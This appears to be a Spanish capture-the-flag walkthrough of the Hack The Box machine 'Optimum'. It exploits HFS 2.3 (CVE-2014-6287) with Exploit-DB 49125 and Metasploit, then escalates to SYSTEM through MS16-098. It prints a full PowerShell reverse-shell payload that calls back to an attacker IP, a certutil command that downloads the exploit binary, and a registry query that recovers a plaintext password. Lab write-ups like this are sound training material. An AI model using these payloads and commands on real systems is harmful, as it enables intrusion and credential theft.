-----
-----



## 🧩 Tarea 1: ¿Qué versión de HttpFileServer está ejecutándose en el puerto TCP 80?

### 🎯 Objetivo

Identificar la versión del servicio web **HttpFileServer** (HFS) que corre sobre el puerto **TCP/80** de la máquina víctima.

### ⚙️ Enumeración de puertos (Nmap)

Como primera fase, hacemos un escaneo **rápido pero con detección de servicios** en el puerto 80 para identificar qué servicio HTTP está corriendo.

```bash
sudo nmap -sS -sV -Pn -p80 10.129.143.238
```

#### 💡 Desglose de opciones:

- `-sS`: escaneo TCP SYN (rápido y sigiloso).
    
- `-sV`: detección de versiones del servicio.
    
- `-Pn`: sin ping previo (salta el descubrimiento de hosts).
    
- `-p80`: escanea solo el puerto 80.



📌 Resultado:

```bash
80/tcp open  http  HttpFileServer httpd 2.3
```

### 🧠 Análisis

El puerto 80 está abierto y está ejecutando **HttpFileServer 2.3**, una versión vulnerable a ejecución remota de comandos (💥 CVE-2014-6287).  
Este dato será clave para la explotación en la siguiente tarea.


## 🧩 Tarea 2: ¿Cuál es el ID CVE del 2014 para una vulnerabilidad de ejecución remota de código en la función `findMacroMarker` de HttpFileServer versión 2.3?

### 🔎 Búsqueda de información:

Realizamos una búsqueda en Google con el término:

```bash
2014 CVE ID HttpFileServer 2.3
```



👉 Y encontramos en la base de datos de MITRE que la vulnerabilidad corresponde a:

📌 **CVE-2014-6287** – Mitre.org


## 🧩 Tarea 3: ¿Con qué usuario se está ejecutando el servidor web?

### 🧠 Objetivo

Identificar el usuario del sistema operativo que ejecuta el servicio vulnerable **HttpFileServer 2.3.x**, aprovechando una vulnerabilidad **RCE (CVE-2014-6287)** en una máquina Windows Server 2012 R2.

### 🔍 Análisis inicial

Tras escanear el puerto 80, se detectó la presencia de **HttpFileServer (HFS) v2.3.x**, un software conocido por tener una vulnerabilidad crítica de ejecución remota de comandos (**RCE**):

- 🔒 **Vulnerabilidad**: `CVE-2014-6287`
    
- 📚 Referencia Exploit-DB: `49125.py`
    
- 🧠 Técnica: Inyección a través del parámetro `search` en una URL especialmente diseñada.

### 🔎 Enumeración inicial

A través de `nmap` se detectó un servicio web corriendo en el puerto 80. Al acceder vía navegador, aparece:

```bash
HttpFileServer 2.3
```

Esto nos lleva a investigar posibles vulnerabilidades conocidas asociadas a esa versión.

### 🔍 Búsqueda de vulnerabilidad

Usamos `searchsploit` para buscar exploits asociados a **HttpFileServer 2.3**:

```bash
searchsploit httpfileserver 2.3
```

Resultado:

```bash
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
Path: windows/webapps/49125.py
```



Este script explota la **vulnerabilidad CVE-2014-6287**, permitiendo ejecutar comandos en el servidor víctima a través de una URL especialmente diseñada.

### 📂 Copia y análisis del exploit

Copiamos el script a nuestro entorno de trabajo:

```bash
searchsploit -m 49125.py
```



Abrimos el archivo para inspeccionarlo y ajustarlo a nuestra configuración:

```bash
nvim 49125.py
```

### ⚙️ Configuración del exploit

Editamos las siguientes variables:

```bash
lhost = "10.10.16.35"       # Nuestra IP tun0 (VPN)
lport = 4444                # Puerto donde escucharemos
rhost = "10.129.235.147"    # IP de la máquina víctima
rport = 80                  # Puerto del servicio HFS
```


### 🧠 ¿Cómo funciona la vulnerabilidad?

`HttpFileServer` acepta ciertos comandos a través de URLs usando sintaxis como:

```bash
http://<IP>/?search=%00{.exec|<comando>.}
```

Esto permite ejecutar directamente comandos en la máquina remota, lo cual es un **grave fallo de seguridad** si el servidor no está adecuadamente configurado.

### 🧬 Payload en PowerShell

El payload usado es una reverse shell en PowerShell que:

1. Crea un socket TCP al atacante.
    
2. Escucha y ejecuta los comandos recibidos.
    
3. Devuelve la salida por el mismo canal.

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.35",4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()
```

### 🔐 Codificación del payload

PowerShell requiere que el payload se codifique en **UTF-16LE** y luego en **Base64** si se usa `-EncodedCommand`. Esto se hace automáticamente en el script:

```bash
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
```

Se construye la URL con el payload codificado:

```bash
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
```

### 🧪 Ejecución del exploit


```bash
sudo python3 49584.py
```



Se recibe la conexión desde la máquina víctima.

Verificamos el usuario: **optimum\kostas

Accedemos al escritorio y leemos la flag.

### ✅ Resultado de la tarea

|Concepto|Valor|
|---|---|
|Usuario web detectado|`kostas`|
|Flag de usuario|`8a15ff404249cddeae7bfabc87ecb6e7`|
|CVE explotado|`CVE-2014-6287`|
|Técnica usada|Reverse shell vía PowerShell (RCE)|

### 🔍 Conclusiones

Este ejercicio demuestra cómo un servicio web antiguo y mal configurado puede ser aprovechado para ganar acceso remoto a un sistema Windows. La codificación base64 del payload y su inyección vía HTTP GET permite burlar controles básicos. La facilidad con la que se explotó esta vulnerabilidad resalta la importancia de mantener actualizado todo software expuesto públicamente.

> 📌 **Consejo**: Nunca publiques servicios legacy como HFS 2.3 en Internet. Usa versiones seguras y/o protégelos tras firewalls y autenticación fuerte.


## 🧩 Tarea 5 – Enumeración del registro de Windows (Autologon)

### 🎯 Objetivo

Localizar la contraseña del usuario `kostas`, que según la pista, podría estar almacenada en el **registro de Windows** como parte de una configuración de **inicio de sesión automático** (Autologon).

## 🔍 Paso a paso realizado

Desde la **reverse shell PowerShell** que obtuvimos previamente como el usuario `kostas`, ejecutamos:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

📋 Salida relevante:



**Nota:** En este caso, no apareció la clave `DefaultPassword`, lo cual indica que **no está configurado el autologon con contraseña** o que esta se encuentra en otro lugar o fue eliminada.

## 🔼 Escalada de privilegios — Optimum (HTB)

🧠 _Objetivo:_ elevar privilegios desde el usuario `kostas` hasta `NT AUTHORITY\SYSTEM` explotando una vulnerabilidad local en Windows Server 2012 R2.

---
### 🔍 1. Recolección de información del sistema

Dentro de la reverse shell obtenida previamente como `kostas`, ejecutamos el siguiente comando para obtener información detallada del sistema operativo:

```bash
systeminfo
```



📝 Esta información incluye:

- Versión del sistema operativo
    
- Arquitectura (x64 o x86)
    
- Hotfixes instalados
    
- RAM disponible
    
- Nombre del host, dominio, etc.


### 🧰 2. Análisis con Windows Exploit Suggester-NG (WES-NG)

En nuestra máquina atacante (Parrot OS), guardamos la salida anterior como `systeminfo.txt` y la analizamos con [WES-NG](https://github.com/bitsadmin/wesng):

```bash
python3 wes.py systeminfo.txt
```



📍 Resultado destacado:

> Se identifica la vulnerabilidad **MS16-098**: _'RGNOBJ' Integer Overflow_, que puede explotarse localmente para obtener `SYSTEM`.


### 📚 3. Identificación del exploit en Exploit-DB

WES-NG nos sugiere el exploit con **EDB-ID: 41020**.

- 📄 **Exploit:** [https://www.exploit-db.com/exploits/41020](https://www.exploit-db.com/exploits/41020)
    
- 📎 **Binario precompilado:**  
    [41020.exe (Exploit-DB Binarios)](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe)



### 💾 4. Descarga y preparación del exploit

Desde nuestra máquina Parrot, descargamos el binario del exploit:

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
```

### 🌐 5. Servidor HTTP para transferencia del exploit

Levantamos un servidor web temporal con Python para servir el binario desde la misma ruta en el que hemos puesto el exploit:

```bash
sudo python3 -m http.server 8089
```



### 📦 6. Transferencia del exploit a la máquina víctima

Desde PowerShell en la máquina Windows (victima), usamos `certutil` para descargar el archivo:

```bash
certutil -urlcache -f http://10.10.16.35:8089/41020.exe exploit.exe
```

> ⚠️ Asegúrate de que la IP `10.10.16.35` coincida con tu IP tun0 o la de tu adaptador VPN de HTB.

🔽 **Descarga exitosa en PowerShell:**

🔽 **Registro del acceso al archivo en el servidor Python:**





## 🧠 Tarea 6: Reconocimiento con Metasploit

> **Pregunta:**  
> _Which Metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?_

🎯 **Respuesta esperada:**  
`post/multi/recon/local_exploit_suggester`

🔍 **Explicación:**  
Este módulo permite, una vez obtenida una sesión en el sistema víctima, buscar automáticamente posibles vectores de escalada de privilegios analizando el sistema operativo y las configuraciones locales.


## ⚙️ Explotación con Metasploit

Después de haber conseguido explotar la vulnerabilidad de HFS (CVE-2014-6287) con un script Python, ahora repetimos el proceso usando **Metasploit**, como pide la plataforma:

### 1. 🔥 Arrancar Metasploit

```bash
msfconsole
```

Si no tienes la base de datos configurada:

```bash
msfbd run
```

Esto inicia Metasploit junto a PostgreSQL.



### 2. 🌐 Configuración de variables globales

```bash
setg RHOSTS 10.129.200.101
setg LHOST 10.10.16.35
setg LPORT 4444
```


✅ **Explicación:**

- `RHOSTS`: IP del objetivo (máquina víctima).
    
- `LHOST`: IP de tu máquina (Parrot OS).
    
- `LPORT`: Puerto para recibir la reverse shell.


### 3. 🔍 Buscar el módulo de exploit

```bash
search rejetto
```

📌 Resultado:



Este es el exploit para **HttpFileServer 2.3**, versión vulnerable.

### 4. 📦 Cargar y ejecutar el exploit

```bash
use 1
run```

⚠️ **Nota:** Si tienes otro listener en ejecución (por ejemplo, el del script en Python), ciérralo o cambiará el puerto.

🧠 El módulo usa por defecto un payload tipo **meterpreter/reverse_tcp**, el cual permite control extendido sobre la víctima.



### 5. 🖥️ Acceso con Meterpreter

Una vez que el exploit tiene éxito, verás algo así:

```bash
meterpreter > shell
```

Ya dentro:



👉 Resultado: `optimum\kostas`


## 🚀 Escalada de Privilegios

Ya teníamos en el escritorio de Kostas un binario `exploit.exe` que, al ejecutarse, nos daba acceso como **NT AUTHORITY\SYSTEM**.



Resultado:



🎯 Objetivo de la máquina completado.

## 📁 Flag de root

Desde la shell SYSTEM:



Flag obtenida correctamente ✅


## 🔐 BONUS: Recuperación de credenciales desde el registro

Desde una terminal con SYSTEM:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Resultado:



```bash
DefaultPassword    REG_SZ    kdeEjDowkS*
```

💡 Hemos recuperado la contraseña de `kostas`, en texto plano, desde el Registro de Windows.

## 📌 Conclusiones

- ✅ La máquina tiene una vulnerabilidad crítica no autenticada en HFS.
    
- 🧠 Usar Metasploit agiliza el proceso, ideal para entornos de práctica.
    
- 📥 El módulo `local_exploit_suggester` ayuda a encontrar rutas de escalada.
    
- 🔑 El sistema guarda credenciales sensibles sin cifrar en el registro.


